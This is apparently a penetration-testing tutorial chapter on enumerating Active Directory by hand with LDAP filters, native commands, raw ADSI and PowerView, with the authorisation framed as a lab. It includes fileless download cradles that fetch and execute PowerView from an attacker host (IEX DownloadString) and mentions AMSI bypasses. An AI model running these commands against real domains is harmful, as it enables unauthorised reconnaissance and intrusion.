






**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 235 min

This is Chapter 3 of the Active Directory attack notebook — Notebook 18. Chapter 1 built the assumed-breach mindset and the attack lifecycle; Chapter 2 taught BloodHound as a way to *see* the domain as a graph. Both leaned on collectors that hoover up everything at once. This chapter goes the other way: it teaches you to enumerate Active Directory **by hand**, one precise query at a time, so that you understand exactly what BloodHound was doing under the hood and can operate in situations where you cannot drop a collector — a locked-down jump box, a noisy environment where a full SharpHound run would get you caught, or a Cypher-less moment where you just need one answer fast.

The through-line of this chapter is a single realisation: **every AD enumeration tool is a wrapper around LDAP.** PowerView, ADRecon, SharpHound, `net.exe`, the Active Directory Users and Computers console — all of them ultimately open a connection to a domain controller on TCP 389 (or 636 for LDAPS) and send search filters against the directory. Once you can read and write LDAP search filters and understand the object model, the tools stop being magic incantations and become convenient front-ends you can predict, tune, and replace when they get flagged. We'll build that foundation first, then layer PowerView, ADRecon, and kerbrute on top of it.

kerbrute is the odd one out in that list and earns its place in the title because it does something the LDAP tools cannot: it validates *usernames and passwords* by abusing Kerberos pre-authentication, so you can enumerate valid accounts and spray a password against the whole domain **without a single SMB or LDAP bind** — often the quietest credential-discovery primitive available in the assumed-breach opening. We treat it as its own discipline near the end, with the lockout math spelled out, because a careless spray is the single fastest way to lock out a client's staff and end an engagement badly.

Everything here changes state on infrastructure that runs entire organisations. Authorisation is non-negotiable: every command assumes an explicit, written, scoped engagement, or a lab you built yourself. Enumeration feels harmless — "I'm only reading" — but username enumeration and password spraying can lock accounts, and heavy LDAP queries light up modern detection. Running any of this against a domain you are not authorised to test is unlawful unauthorised-access activity everywhere on earth. Build the lab in Part 12, point every tool at your own domain controller, and keep each command inside that boundary.

---

## Part 1: Where Enumeration Sits in the AD Attack Lifecycle

Enumeration is not a phase you do once and finish. In a real domain compromise you return to it constantly: after initial access to understand where you landed, after every credential you capture to see what new doors it opens, and after every privilege gain to re-map the terrain from the new vantage point. The lifecycle from Chapter 1 makes this concrete.



Notice the loops. Every time you move laterally or escalate, you re-enter enumeration with a fresh identity. That is why manual enumeration skill matters even in a BloodHound world: BloodHound gives you the whole graph in one noisy burst, but during active operations you often want to ask one surgical question — *"which computers does this newly-compromised service account have local admin on?"* — without re-running a collector and re-uploading data. PowerView answers that in one line.

There are three distinct enumeration stances, and knowing which one you are in dictates which tool you reach for:

- **Unauthenticated / pre-credential.** You have network reach to a domain controller but no valid credential yet. Your options are anonymous LDAP (rarely allowed anymore), and — crucially — **Kerberos username enumeration** with kerbrute, which needs no password. This is where a spray campaign begins.
- **Authenticated, low-privilege.** You hold one valid domain user credential. This is the richest stance: any authenticated user can read the vast majority of the directory over LDAP. PowerView, ADRecon, `bloodhound-python`, `ldapsearch` — all light up here. 90% of this chapter lives in this stance.
- **Authenticated, privileged.** You hold local admin on a host or elevated domain rights. Now you can also read *session* and *loggedon* data remotely, LAPS passwords, gMSA blobs, and more. Enumeration widens.

**Red team framing:** the goal of enumeration is never "collect everything." It is to answer the next question in your kill chain with the least noise. **Blue team framing:** defenders should read this chapter as a catalogue of exactly what an intruder reads *first*, because the queries below are the earliest reliable signal that an assumed breach has occurred — long before any exploit fires.

Two definitions that beginners constantly blur, restated because the rest of the chapter depends on them:

| Term | What it actually is |
|---|---|
| **Authentication** | Proving *who you are* to the domain (Kerberos TGT, NTLM challenge/response). kerbrute lives here. |
| **Authorisation / directory read** | Once authenticated, *reading objects* out of the directory over LDAP. PowerView/ADRecon live here. |
| **Object** | Any entry in the directory: a user, computer, group, OU, GPO, trust. Each has a `distinguishedName` and attributes. |
| **Attribute** | A named field on an object (`sAMAccountName`, `memberOf`, `servicePrincipalName`, `userAccountControl`). Enumeration is the art of reading the right attributes. |

Keep that table in mind. Almost everything below is "authenticate once, then read attributes off objects with the right filter."

---

## Part 2: The LDAP Layer Everything Sits On

Before any tool, understand the protocol. **LDAP (Lightweight Directory Access Protocol)** is how clients read and write Active Directory. A domain controller is an LDAP server listening on:

- **TCP 389** — LDAP (cleartext on the wire, though domain traffic is usually wrapped in SASL sign/seal).
- **TCP 636** — LDAPS (LDAP over TLS).
- **TCP 3268 / 3269** — the **Global Catalog** (GC), a forest-wide partial replica; query it to search across every domain in the forest at once.

The directory is a tree. Every object has a **distinguishedName (DN)** that spells out its full path from the object up to the domain root, e.g. `CN=Jane Doe,OU=Finance,DC=corp,DC=local`. The DN reads right-to-left as a path: domain `corp.local`, organisational unit `Finance`, common name `Jane Doe`.



### LDAP search filters — the language of enumeration

Every query is a **base DN** + a **scope** + a **filter** + a set of **attributes to return**. Filters use a prefix (Polish) notation wrapped in parentheses:

- `(sAMAccountName=jdoe)` — exact match.
- `(objectClass=user)` — all users.
- `(&(A)(B))` — logical AND.
- `(|(A)(B))` — logical OR.
- `(!(A))` — NOT.
- `(cn=svc*)` — wildcard (leading wildcards are indexed poorly and are slow).

The single most important filter class in offensive AD work uses a **bitwise** operator against `userAccountControl` (UAC), a bitmask attribute encoding account flags. The magic OID `1.2.840.113556.1.4.803` means "bitwise AND":

```text
# Accounts that do NOT require Kerberos pre-auth (AS-REP roastable) — UAC bit 0x400000
(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))

# Accounts with "password never expires" — UAC bit 0x10000
(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=65536))

# Disabled accounts — UAC bit 0x2
(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))
```

Reference table of the UAC bits you will filter on constantly:

| UAC flag | Hex | Decimal | Offensive meaning |
|---|---|---|---|
| `ACCOUNTDISABLE` | 0x0002 | 2 | Account disabled — skip it in sprays |
| `LOCKOUT` | 0x0010 | 16 | Currently locked — a spray footprint |
| `DONT_EXPIRE_PASSWORD` | 0x10000 | 65536 | Password never expires — long-lived target |
| `DONT_REQ_PREAUTH` | 0x400000 | 4194304 | AS-REP roastable (Chapter 4) |
| `TRUSTED_FOR_DELEGATION` | 0x80000 | 524288 | Unconstrained delegation host — high value |
| `TRUSTED_TO_AUTH_FOR_DELEGATION` | 0x1000000 | 16777216 | Constrained delegation w/ protocol transition |
| `WORKSTATION_TRUST_ACCOUNT` | 0x1000 | 4096 | Object is a computer |
| `SERVER_TRUST_ACCOUNT` | 0x2000 | 8192 | Object is a domain controller |

**Why teach this before any tool?** Because PowerView's friendly switches (`-PreauthNotRequired`, `-SPN`, `-Unconstrained`) simply emit these exact filters. When PowerView is blocked by AMSI or absent entirely, you type the filter by hand into `ldapsearch` or a raw ADSI query and get the same answer. The filter is the ground truth; the tool is convenience.

### The attributes worth memorising

| Attribute | What it tells you |
|---|---|
| `sAMAccountName` | The pre-Windows-2000 logon name (`jdoe`) — your username currency |
| `userPrincipalName` | The UPN logon form (`jdoe@corp.local`) |
| `distinguishedName` | Full path in the tree |
| `memberOf` | Groups this object belongs to (non-transitive at read time) |
| `servicePrincipalName` | SPNs — presence on a *user* = kerberoastable (Chapter 4) |
| `userAccountControl` | The bitmask above |
| `pwdLastSet` | When the password last changed — spray-timing intel |
| `lastLogonTimestamp` | Rough last-logon (replicated ~14 days) — is this account live? |
| `description` | Free-text — passwords hide here embarrassingly often |
| `adminCount` | 1 = protected by AdminSDHolder = currently/formerly privileged |
| `ms-Mcs-AdmPwd` | The LAPS local-admin password (readable only if delegated) |

**Bug bounty / CTF note:** on nearly every HackTheBox and TryHackMe AD box, an early win is `description` fields or logon-script paths leaking a credential. `Get-DomainUser | Select samaccountname,description` is a five-second check that has ended more CTF boxes than any exploit.

---

## Part 3: Enumerating With Nothing but Native Windows and Raw ADSI

You will sometimes land on a host with no tooling, AMSI shredding your PowerView import, and Defender watching. You can still enumerate the entire domain with what Windows ships. This section teaches the fallback layer first so you are never stuck.

### 3.1 The classic `net` commands

```powershell
net user /domain                      # all domain users
net user jdoe /domain                 # detail on one user: groups, logon hours, pw set
net group /domain                     # all domain groups
net group "Domain Admins" /domain     # membership of a privileged group
net accounts /domain                  # PASSWORD & LOCKOUT POLICY — read before any spray
net localgroup administrators         # local admins on THIS box
```

`net accounts /domain` is the one you must run before spraying — it prints the lockout threshold and observation window that decide whether a spray is safe (Part 10). Sample output:

```text
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Minimum password length:                              7
Maximum password age (days):                          42
```

### 3.2 Raw ADSI / .NET — the tool-free LDAP client

When even `net` is monitored, you can build an LDAP query directly in PowerShell using the `System.DirectoryServices.DirectorySearcher` class. This is exactly what PowerView does internally — here it is with no dependencies:

```powershell
# Bind to the current domain and search for all users, returning chosen attributes
$searcher = New-Object System.DirectoryServices.DirectorySearcher
$searcher.Filter = "(&(objectCategory=person)(objectClass=user))"
$searcher.PageSize = 1000                      # page results so large domains don't truncate
"samaccountname","description","useraccountcontrol","serviceprincipalname" |
    ForEach-Object { $searcher.PropertiesToLoad.Add($_) | Out-Null }
$searcher.FindAll() | ForEach-Object {
    [PSCustomObject]@{
        User = $_.Properties["samaccountname"][0]
        Desc = $_.Properties["description"][0]
        SPN  = $_.Properties["serviceprincipalname"] -join ";"
    }
}
```

Realistic output:

```text
User        Desc                                  SPN
----        ----                                  ---
Administrator
jdoe        Finance analyst
svc_sql     SQL service acct - do not disable     MSSQLSvc/db01.corp.local:1433
svc_backup  Temp pw Summer2024! rotate me         CIFS/backup01.corp.local
```

Two immediate findings from that fake-but-typical output: `svc_sql` has an SPN (kerberoast target), and `svc_backup` has a password sitting in its `description`. This is the value of manual enumeration — you *read* what you get back instead of waiting for a graph to render.

To find only kerberoastable users with the raw searcher, swap the filter:

```powershell
$searcher.Filter = "(&(samAccountType=805306368)(servicePrincipalName=*)(!(samAccountName=krbtgt)))"
```

`samAccountType=805306368` means "normal user account" (more precise than `objectClass=user`, which also matches computers). Excluding `krbtgt` avoids the one SPN account you can never crack usefully.

**Red team usage:** raw ADSI queries generate the same 1644/4662 LDAP events as any tool but carry no on-disk signature and no AMSI-scannable string like `Invoke-Kerberoast`, so they survive script-block-logging-heavy environments better than importing a known offensive module.

---

## Part 4: PowerView From Scratch — Install, Import, Architecture

**What PowerView is.** PowerView is a single PowerShell script — a component of the (now-archived but still ubiquitous) PowerSploit project, still actively maintained inside **PowerShellMafia/PowerSploit** forks and the **BC-Security/Empire** and **ZeroDayLab** trees. It is a large collection of functions that wrap `DirectorySearcher` (Part 3) with sane defaults, friendly parameter names, and output objects you can pipe. It does not install anything, touch disk beyond the `.ps1`, or require admin — it is "just" a very well-written LDAP client.

**Why it exists.** The native `net` and RSAT `ActiveDirectory` module cmdlets (`Get-ADUser` etc.) require RSAT to be installed and are heavily logged and signature-flagged. PowerView gives you the same reach without RSAT, with offensive-first functions (`Find-InterestingDomainAcl`, `Find-LocalAdminAccess`, `Get-DomainUser -SPN`) that the Microsoft cmdlets simply don't offer.

### 4.1 Getting PowerView

On Kali it ships with several packages; the canonical copy:

```bash
# Kali — PowerView.ps1 is bundled here
locate PowerView.ps1
# /usr/share/windows-resources/powersploit/Recon/PowerView.ps1

# Or pull the maintained dev branch
git clone https://github.com/PowerShellMafia/PowerSploit
ls PowerSploit/Recon/PowerView.ps1
```

You transfer that single `.ps1` to (or reach it from) the Windows host you are operating from.

### 4.2 Importing it (and getting around AMSI)

```powershell
# Simplest: dot-source from disk
. .\PowerView.ps1

# Fileless: pull and execute in memory (classic download cradle)
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/PowerView.ps1')

# Modern equivalent using Invoke-RestMethod
IEX (iwr -useb http://10.10.14.7/PowerView.ps1)
```

On a patched Windows 10/11 host, that download string will very likely be **blocked by AMSI** — the Antimalware Scan Interface hands the script text to Defender before execution and the well-known PowerView strings trip a signature. You will see:

```text
IEX : At line:1 char:1
This script contains malicious content and has been blocked by your antivirus software.
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Handling AMSI in depth is a later chapter, but the operationally relevant options are: (1) run an AMSI bypass in the same session first, (2) use an obfuscated PowerView fork whose strings don't match the signature, or (3) fall back to **SharpView** — a C# port of PowerView compiled to an EXE that bypasses PowerShell logging and AMSI entirely:

```text
SharpView.exe Get-DomainUser -Identity jdoe
SharpView.exe Get-DomainComputer -Unconstrained
```

Or drop PowerShell/AMSI concerns entirely and enumerate from Kali with `ldapsearch`/`windapsearch`/`bloodhound-python` (Part 8.4). Keep all three routes in your head; environments differ.

### 4.3 PowerView's naming convention

PowerView underwent a rename; both sets of names work because the new script keeps aliases. Learn the modern `Get-Domain*` names:

| Old (v2) | Modern (v3) | Returns |
|---|---|---|
| `Get-NetDomain` | `Get-Domain` | Domain object, PDC, functional level |
| `Get-NetUser` | `Get-DomainUser` | User objects |
| `Get-NetComputer` | `Get-DomainComputer` | Computer objects |
| `Get-NetGroup` | `Get-DomainGroup` | Group objects |
| `Get-NetGroupMember` | `Get-DomainGroupMember` | Members of a group (recursively with `-Recurse`) |
| `Invoke-ShareFinder` | `Find-DomainShare` | Reachable SMB shares |
| `Invoke-UserHunter` | `Find-DomainUserLocation` | Where target users are logged in |
| `Get-NetGPO` | `Get-DomainGPO` | Group Policy objects |
| n/a | `Find-InterestingDomainAcl` | Dangerous ACL rights across the domain |

Every `Get-Domain*` cmdlet shares a common set of switches you should internalise once:

| Switch | Effect |
|---|---|
| `-Identity <name>` | Restrict to one object (sAMAccountName, DN, SID, GUID) |
| `-Domain <fqdn>` | Target a different domain (for cross-trust enum) |
| `-Server <dc>` | Query a specific DC (useful to avoid a monitored one) |
| `-LDAPFilter '<filter>'` | Supply a raw LDAP filter — the escape hatch from Part 2 |
| `-Properties a,b,c` | Return only these attributes (quieter + readable) |
| `-Credential $cred` | Run the query as another user (pass a PSCredential) |
| `-Raw` | Return the raw directory entry instead of a parsed object |

**Passing alternate creds** matters constantly in assumed breach — you have creds for `jdoe` but you're running on a box logged in as someone else:

```powershell
$pw   = ConvertTo-SecureString 'Autumn2026!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('CORP\jdoe',$pw)
Get-DomainUser -Credential $cred -Identity svc_sql
```

---

## Part 5: Domain, Trust, and Policy Enumeration With PowerView

Start wide: understand the domain and forest you are standing in before drilling into objects.

```powershell
Get-Domain                       # your domain: name, forest, DCs, functional level
Get-DomainController             # every DC, with OS and IP
Get-Forest                       # forest root, schema/naming masters
Get-ForestDomain                 # all domains in the forest
Get-DomainPolicyData             # the actual password/lockout/Kerberos policy (from GPO)
```

`Get-DomainController` sample output:

```text
Forest                  : corp.local
Name                    : DC01.corp.local
OSVersion               : Windows Server 2022 Standard
IPAddress               : 10.10.10.10
Roles                   : {SchemaRole, NamingRole, PdcRole, RidRole, InfrastructureRole}
```

### 5.1 Trusts — the road to other domains

Trusts are how a compromise in one domain reaches another. Enumerate them early:

```powershell
Get-DomainTrust                  # trusts for the current domain
Get-DomainTrustMapping           # walk the whole forest/external trust graph
Get-ForestTrust                  # forest-to-forest trusts
```

Sample:

```text
SourceName      : corp.local
TargetName      : dev.corp.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustDirection  : Bidirectional
TrustAttributes : WITHIN_FOREST
```



`TrustAttributes` is the field to read closely. `WITHIN_FOREST` trusts share the same forest and are therefore attackable via SID history / cross-domain Kerberos; `FILTER_SIDS` on an external trust means SID filtering is on and blocks the classic SID-history escalation. **Red team usage:** a `Bidirectional` intra-forest trust with a child domain is the standard route from a compromised child DC to the forest root via a forged inter-realm TGT (a later chapter's material) — but you cannot plan that path unless you enumerate the trust first.

### 5.2 Reading the password/lockout policy the right way

`Get-DomainPolicyData` parses the Default Domain Policy GPO and returns the real thresholds — cross-check it against `net accounts /domain`:

```text
SystemAccess       :
    MinimumPasswordLength   : 7
    LockoutBadCount         : 5
    ResetLockoutCount       : 30
    LockoutDuration         : 30
    PasswordComplexity      : 1
```

Do not skip this. `LockoutBadCount : 0` means **no lockout** and you can spray aggressively; `LockoutBadCount : 5` means you get 4 safe attempts per observation window per account (Part 10 does the arithmetic). Also check for **fine-grained password policies** (PSOs), which override the default for specific groups:

```powershell
Get-DomainObject -LDAPFilter '(objectClass=msDS-PasswordSettings)' -Properties name,msds-lockoutthreshold,msds-psoappliesto
```

---

## Part 6: User, Group, and Computer Enumeration With PowerView

This is the bread and butter. Every command below is a filtered LDAP read.

### 6.1 Users

```powershell
Get-DomainUser | Select samaccountname                       # every username
Get-DomainUser -Identity jdoe -Properties *                  # everything about one user
Get-DomainUser -SPN | Select samaccountname,serviceprincipalname   # kerberoastable
Get-DomainUser -PreauthNotRequired | Select samaccountname   # AS-REP roastable
Get-DomainUser -UACFilter DONT_EXPIRE_PASSWORD               # password-never-expires
Get-DomainUser -LDAPFilter '(admincount=1)' | Select samaccountname   # protected/privileged
Get-DomainUser -Properties samaccountname,description |
    Where description                                        # descriptions with content
```

The `-SPN` and `-PreauthNotRequired` switches are the two highest-value one-liners in the whole tool — they surface the accounts you attack next chapter. Sample `-SPN` output:

```text
samaccountname serviceprincipalname
-------------- --------------------
svc_sql        MSSQLSvc/db01.corp.local:1433
svc_web        HTTP/web01.corp.local
svc_backup     CIFS/backup01.corp.local
```

Three kerberoast candidates in one line — no BloodHound required.

### 6.2 Groups

```powershell
Get-DomainGroup | Select samaccountname                      # all groups
Get-DomainGroup -Identity 'Domain Admins'                    # one group's details
Get-DomainGroupMember 'Domain Admins' -Recurse               # who is DA, transitively
Get-DomainGroupMember 'Domain Admins' | Select membername
# Reverse: which groups does a user belong to (transitively)?
Get-DomainGroup -MemberIdentity jdoe | Select samaccountname
```

`-Recurse` on `Get-DomainGroupMember` is essential: nested groups mean the visible members of "Domain Admins" may be *other groups*, and the humans who actually have DA sit two or three levels down. Sample:

```text
GroupName      MemberName      MemberObjectClass
---------      ----------      -----------------
Domain Admins  Administrator   user
Domain Admins  IT-Admins       group
IT-Admins      tsmith          user
IT-Admins      svc_deploy      user
```

Without `-Recurse` you'd have missed `tsmith` and `svc_deploy` — the two accounts you'd actually target.

### 6.3 Computers

```powershell
Get-DomainComputer | Select dnshostname,operatingsystem       # every machine + OS
Get-DomainComputer -Unconstrained | Select dnshostname        # unconstrained delegation
Get-DomainComputer -TrustedToAuth | Select dnshostname,msds-allowedtodelegateto  # constrained
Get-DomainComputer -Ping                                      # only live ones (noisy)
Get-DomainComputer -OperatingSystem '*Server 2012*'          # legacy/EOL boxes
Get-DomainComputer -LDAPFilter '(ms-mcs-admpwd=*)' -Properties ms-mcs-admpwd,name  # LAPS-readable
```

The `-Unconstrained` filter is gold: any computer trusted for unconstrained delegation (other than DCs, which always are) is a lateral-movement jackpot because it caches TGTs of anyone who connects to it. The stale-OS filter (`*Server 2012*`, `*Windows 7*`) finds machines missing modern mitigations — prime exploitation targets.

Reference table of the most useful computer switches:

| Switch | Finds |
|---|---|
| `-Unconstrained` | Hosts with unconstrained delegation (TGT-caching gold) |
| `-TrustedToAuth` | Hosts with constrained delegation + protocol transition |
| `-Ping` | Only currently-reachable hosts (ICMP — noisy, may be blocked) |
| `-OperatingSystem '<glob>'` | Match by OS string — hunt EOL systems |
| `-LAPS` (fork-dependent) | Machines whose LAPS password you can read |
| `-SPN 'MSSQLSvc*'` | Machines running a particular service by SPN |

---

## Part 7: ACL, Delegation, and Session Enumeration — Where Paths Come From

Users, groups, and computers tell you *what exists*. ACLs tell you *who can do what to whom* — and that is where 90% of real privilege escalation lives, exactly the edges BloodHound draws.

### 7.1 Interesting ACLs

```powershell
# The headline function: find ACEs that grant dangerous rights, resolving SIDs to names
Find-InterestingDomainAcl -ResolveGUIDs |
    Where { $_.IdentityReferenceName -notmatch 'Domain Admins|Enterprise Admins' } |
    Select IdentityReferenceName, ActiveDirectoryRights, ObjectDN
```

`-ResolveGUIDs` translates the raw rights-GUIDs into readable names like `User-Force-Change-Password` instead of a bare GUID — always use it. Sample output:

```text
IdentityReferenceName  ActiveDirectoryRights   ObjectDN
---------------------  ---------------------   --------
IT-Support             ForceChangePassword     CN=tsmith,OU=IT,DC=corp,DC=local
jdoe                   GenericWrite            CN=svc_web,CN=Users,DC=corp,DC=local
Helpdesk               WriteDacl               CN=Finance,OU=Groups,DC=corp,DC=local
```

Reading that: whoever is in `IT-Support` can reset `tsmith`'s password; `jdoe` (maybe you) can write to `svc_web`, enabling a **targeted kerberoast** (set an SPN, roast it) or **shadow-credentials** attack. These are the individually-boring permissions that chain into domain dominance.

To ask the targeted question — *"what can THIS principal I control do?"*:

```powershell
# Get jdoe's SID, then find every ACE where jdoe is the trustee
$sid = Get-DomainUser jdoe -Properties objectsid | Select -Expand objectsid
Get-DomainObjectAcl -ResolveGUIDs -Identity * |
    Where { $_.SecurityIdentifier -eq $sid } |
    Select ObjectDN, ActiveDirectoryRights
```

| Right you might hold over a target | What it unlocks |
|---|---|
| `GenericAll` | Full control — reset password, add SPN, everything |
| `GenericWrite` / `WriteProperty` | Set SPN (targeted kerberoast) or logon script |
| `WriteDacl` | Rewrite the object's ACL to grant yourself GenericAll |
| `WriteOwner` | Make yourself owner, then rewrite the DACL |
| `ForceChangePassword` | Reset the target's password without knowing the old one |
| `AddKeyCredentialLink` | Shadow Credentials — add a cert, auth as the target |
| `AllExtendedRights` | Includes DCSync when held over the domain object |

### 7.2 Delegation, GPOs, OUs

```powershell
Get-DomainOU | Select name,distinguishedname                 # OU structure (where GPOs apply)
Get-DomainGPO | Select displayname,gpcfilesyspath            # all GPOs + SYSVOL path
